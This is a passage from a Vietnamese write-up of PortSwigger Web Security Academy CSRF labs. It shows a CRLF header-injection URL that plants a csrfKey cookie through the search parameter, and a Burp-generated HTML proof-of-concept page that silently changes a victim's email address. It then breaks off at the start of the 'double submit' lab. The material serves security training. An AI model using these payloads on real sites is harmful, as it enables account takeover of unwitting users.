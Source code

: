 ![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_requestwiener.jpg?raw=true)

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_repeatercarlos.jpg?raw=true)


Và chúng ta thấy rằng kết quả vẫn được trả về, chức năng vẫn được thực hiện đây chính là lỗ hổng mà chúng ta khai thác, chúng ta có thể dùng việc này để thay đổi CSRF của nạn nhân bằng CSRF của chúng ta. Tuy nhiên chỉ mỗi việc này là chưa đủ, chúng ta cần 1 chức năng khác của nạn nhân mà có ảnh hưởng hoặc liên quán đến cookie. Chúng ta thấy chức năng search, bắt request lại chúng ta nhận thấy rằng search sẽ có phần trả về liên kết với Set Cookie.


Điều đó thay đổi trong phần payload của chúng ta, thay vì submit.form thì bây giờ chúng ta tận dụng chức năng search:

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_search.jpg?raw=true)

```
<img src="http://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/
?search=halo%0d%0aSet-Cookie:%20csrfKey=7UcNABJHVZF4XzJbVtNeAxgr0J50lOLE" 
onerror="document.forms[0].submit()">
```
Sau đó chúng ta lặp lại việc thay thế CSRFkey vừa làm và tạo payload bằng Engegament và chúng ta có payload như sau:

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_engagement.jpg?raw=true)
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="![img](https://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="hidden" name="csrf" value="I5C4UBLoZGT1jdFCwsq3ewWkhQdSFU5c" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://aca51ff61e8030e780d227cd009a0095.web-security-academy.net/?search=halo%0d%0aSet-Cookie:%20
    csrfKey=7UcNABJHVZF4XzJbVtNeAxgr0J50lOLE" onerror="document.forms[0].submit()">
  </body>
</html>

```
Đi tới exploit server và Store để send payload lên website Delver to Victim to solve.

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_exploitserver.jpg?raw=true)

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_sscookie_solve.jpg?raw=true)

### Lab: CSRF where token is duplicated in cookie

Bài lab mô tả rằng lần này để ngăn chặn việc exploit CSRF thì website sử dụng "double submit" . 
Login vào account và bắt request, ta thấy được rằng có đến 2 biến csrf và thay đổi 1 trong 2 sẽ trả về kết quả như sau :
